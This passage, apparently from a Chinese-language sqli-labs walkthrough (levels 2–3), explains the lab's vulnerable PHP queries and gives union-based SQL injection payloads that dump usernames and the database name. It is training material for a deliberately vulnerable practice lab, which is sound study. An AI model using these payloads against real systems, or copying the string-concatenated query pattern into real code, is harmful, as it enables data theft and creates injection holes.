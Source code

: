 - 联合查询同Less-1
  
  ```
  /sqlilabs/Less-2/
  ?id=-1 union select 1,2,group_concat(id,'-',username,'-','password') from users
  ```

  ![](/assets/images/2-2.png)

### Less-3 

#### 1. 源码分析及漏洞利用

- id为括号字符型 需闭合单引号与括号

  ```
  $sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
  ```

  有回显信息

  ```
  echo 'Your Login name:'. $row['username'];
  ```

  存在报错注入

  ```
  print_r(mysql_error());
  ```

- 联合查询同Less-1 方便起见只查询数据库

  ```
  /sqlilabs/Less-3/?id=-1') union select 1,2,database() --+
  ```

​	![](/assets/images/3-1.png)

### Less-4 
